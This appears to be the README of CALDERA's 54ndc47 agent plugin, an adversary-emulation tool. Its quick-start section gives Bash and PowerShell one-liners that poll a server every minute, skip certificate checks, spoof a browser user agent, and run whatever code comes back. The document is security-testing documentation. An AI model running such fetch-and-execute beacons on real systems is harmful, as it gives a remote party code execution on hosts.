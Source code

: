 # 54ndc47

This plugin contains:
* A custom in-memory agent, with variants for PowerShell and Bash
* API endpoints for the agent to communicate to CALDERA over HTTPS

## Quick start

Start the agent on a Linux or OSX box with either of the bash commands below. Note, the second 
command attaches a group to the agent when it first registers.

```
while true; do eval "$(curl -sk -X POST -H "file:54ndc47.sh" https://localhost:8888/file/render)"; sleep 60; done
while true; do eval "$(curl -sk -X POST -H "file:54ndc47.sh" https://localhost:8888/file/render?group=client)"; sleep 60; done
```

Similarly, you can start the agent on Windows machine with either of the following:

These commands are more verbose then the bash ones because they dynamically accommodate all versions of 
PowerShell, from 3.0+. 

```
while($true) {$ErrorActionPreference='SilentlyContinue';$url="https://localhost:8888/file/render"; $ps_table = $PSVersionTable.PSVersion;If([double]$ps_table.Major -ge 6){iex (irm -Method Post -Uri $url -Headers @{"file"="54ndc47.ps1"} -UserAgent ([Microsoft.PowerShell.Commands.PSUserAgent]::Chrome) -SkipCertificateCheck);}else{[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$True};$web=New-Object System.Net.WebClient;$web.Headers.Add("file","54ndc47.ps1");$web.Headers.add("user-agent","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");$resp=$web.UploadString("$url",'');iex($resp);};sleep 60}
while($true) {$ErrorActionPreference='SilentlyContinue';$url="https://localhost:8888/file/render?group=client"; $ps_table = $PSVersionTable.PSVersion;If([double]$ps_table.Major -ge 6){iex (irm -Method Post -Uri $url -Headers @{"file"="54ndc47.ps1"} -UserAgent ([Microsoft.PowerShell.Commands.PSUserAgent]::Chrome) -SkipCertificateCheck);}else{[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$True};$web=New-Object System.Net.WebClient;$web.Headers.Add("file","54ndc47.ps1");$web.Headers.add("user-agent","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");$resp=$web.UploadString("$url",'');iex($resp);};sleep 60}
```

## Operating systems

Currently, 54ndc47 will run on any Linux, OSX or Windows machine.
